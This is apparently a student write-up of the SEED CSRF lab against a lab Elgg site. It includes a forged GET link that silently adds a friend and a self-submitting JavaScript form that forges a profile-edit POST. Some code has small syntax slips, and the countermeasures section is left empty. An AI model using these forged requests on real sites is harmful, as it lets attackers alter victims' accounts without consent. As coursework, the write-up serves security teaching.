### Task1: CSRF Attack using GET Request

**Part 1: Investigation**

Using the Firefox-tool **LiveHTTPHeaders**, Boby is able to get the URL for adding a friend.

```http
GET /action/friends/add?friend=39&__elgg_ts=1508757630&__elgg_token=f35aa5585b7a4e749ae1fde51d98b33a HTTP/1.1	
```

The *__elgg_ts* and *__elgg_token* are part of a counter-measure for a **CSRF** attack. To make sure this countermeasure is not applied, we have to check to validation code server-side, which is located at:

```sh
/var/www/CSRF/elgg/engine/lib/actions.php	
```

Here we can look at the *action_gatekeeper* -function

```php
function action_gatekeeper($action) {

	//SEED:Modified to enable CSRF.
	//Comment the below return true statement to enable countermeasure.
	return true;

	if ($action === 'login') {
 ....       
```

 This confirms that the CSRF-protection is turned off. This means we can safely ignore the *__elgg_ts* and *__elgg_token*, for our URL. Since we want *Alice*(guid=39) to add Bob(guid=40), we have to change the *friend=39 -> friend=40*

```http
GET /action/friends/add?friend=40
// complete URL
http:/csrflabelgg.com/action/friends/add?friend40
```



**Part2: The attack**

![](img/bobys-message.png)

*Picture*: Now we somehow have to get Alice to click on the link. Conveniently the *CSRF Lab site* has a built in messaging system for unfriended users to talk to each other

![](img/bobys-added.png)

*Picture*: When Alice's clickes the Malicious link, a message appears in the top right corner, telling her that "Boby is added as a friend".

### Task2: CSRF Attack using POST Request

**Part1: Investigation**
To learn about how the POST Request has to be set up, we have to do a normal one, and study it's format, using **LiveHTTPHeaders**

```http
http://www.csrflabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/profile/alice/edit
Cookie: Elgg=lo9p8k56rur2sd668ft13pfr23
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 499
__elgg_token=f89aa6bc5fafa4225de41785cdfadd10&__elgg_ts=1508768255
&name=Alice
&description=%3Cp%3Ehei%3C%2Fp%3E&accesslevel%5Bdescription%5D=2
&briefdescription=&accesslevel%5Bbriefdescription%5D=2
&location=&accesslevel%5Blocation%5D=2
&interests=&accesslevel%5Binterests%5D=2
&skills=&accesslevel%5Bskills%5D=2
&contactemail=&accesslevel%5Bcontactemail%5D=2
&phone=&accesslevel%5Bphone%5D=2
&mobile=&accesslevel%5Bmobile%5D=2
&website=&accesslevel%5Bwebsite%5D=2
&twitter=&accesslevel%5Btwitter%5D=2
&guid=39
...
```

*Note*: Every profile page field is represented in the *request body*, with a corresponding *accesslevel*-attribute. The exception is *name* and *guid*, which does not have an *accesslevel*-attribute.
*Note2*: All *accesslevel*=2

Let's state the value of the present URL encoded characters

| URL Encoded | UTF-8 |
| ----------- | :---- |
| %5B         | [     |
| %5D         | ]     |
| %3C         | <     |
| %3E         | >     |
| %2f         | /     |

Using the code sample from the lab document we insert the desired values

```js
<html>
<body>
<h1>This page forges an HTTP POST Request</h1>
<script type="text/javascript">
var badstring = "I support SEED project!";
var url = "http://www.csrflabelgg.com/action/profile/edit";

window.addEventListener('load', function() {

    // Part1 - Configure fields
    var fields = "" + 
    "<input type='hidden' name='name' value='Boby'>" + 
    "<input type='hidden' name='description' value='"+badstring+"'>" + 
    "<input type='hidden' name='accesslevel[description] value='2'>" + 
    "<input type='hidden' name='briefdescription' value=''>" + 
    "<input type='hidden' name='accesslevel[briefdescription]' value='2'>" + 
    "<input type='hidden' name='location' value=''>" + 
    "<input type='hidden' name='accesslevel[location]' value='2'>" + 
    "<input type='hidden' name='guid' value'39'>";

    // Part2 - Configure and launch <form> POST request
    var form = document.createElement("form");
    form.action = url;
    form.innerHTML = fields;
    form.target = "_self";
    form.method = "post";

    document.body.appendChild(form);
    form.submit();
});
</script>
</body>
</html>
```



**Part2: The attack**
An attack-server is provided on the following URL

```http
http://www.csrflabattacker.com
```

I can edit the */var/www/CSRF/Attacker/index.html* - file to inject my malicious code.

Now I only have to make sure **Boby** clicks the link.
![](img/catpic.png)

*Picture*: **Alice** masterfullly crafts an irresistable message, which **Boby** just has to click. 

![](img/edit-fail.png)

*Picture*: I am observing that the form POST happens over and over again in a loop. 
I do not understand why this is happening.

![](img/private-post.png)

*Picture*: The text is properly posted to the profile, but it is posted as private. Even though I am posting with accesslevel[description]=2. Private should have been accesslevel[description]=0.

**UPDATE**! Found the fix

```js
"<input type='hidden' name='guid' value'39'>" // Wrong Alice's guid
// to
"<input type='hidden' name='guid' value'40'>"; // Changed to Boby's guid
```

I had put Alice's guid in the form which was meant for Boby.
Simply changing it to value='40', made the attack working correctly.

**Part 3: Questions**

***Question 1***: How can *Alice* find *Boby's* user id? 
*Answer*: She can try to send him a message, and then monitor the Request sent

```http
http://www.csrflabelgg.com/messages/compose?send_to=40*
```

*Note*: *Alice's* has clicked "send message" on *Boby's* profile, and can easily spot that his *guid=40*.

***Question 2*** :  Can *Alice* find the *guid* of anyone that visits her, without knowing about them before hand.
*Answer*: One possible solution I can think of:

1. *Alice* does not need to know their *guid*, to make them add her as a friend, if we remember from *task1*

   ```http
   GET /action/friends/add?friend=39 //  39 is Alice's guid
   ```

2. Once she has them added, she can lookup her newest friends in the news feed.

3. Trying to send a message to this friend now, will reveal his *guid*.

### Task 3: Implementing Countermeasures for Elgg

